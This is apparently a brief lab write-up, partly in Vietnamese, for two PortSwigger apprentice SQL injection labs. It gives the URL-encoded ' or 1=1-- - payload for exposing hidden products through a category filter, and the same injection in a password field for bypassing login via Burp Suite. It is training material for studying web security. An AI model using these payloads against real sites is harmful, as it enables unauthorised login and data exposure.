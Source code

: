 # Apprentice Level  
## SQL Injection  
### Lab 01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data  
Chỉnh sửa tham số **category**: 
```
/filter?category=Lifestyle%27or%201=1--%20-
```  
    
![SQL Injection_1](https://github.com/ckiev5/portswigger_labs/blob/main/Images/Apprentice/SQL%20Injection_1.png)  
  
### Lab 02: SQL injection vulnerability allowing login bypass
Sử dụng Burp Suite bắt request login, chèn thêm **' or 1=1-- -**:
```
csrf=...&username=admin&password=abc'+or+1=1--+-
```  
  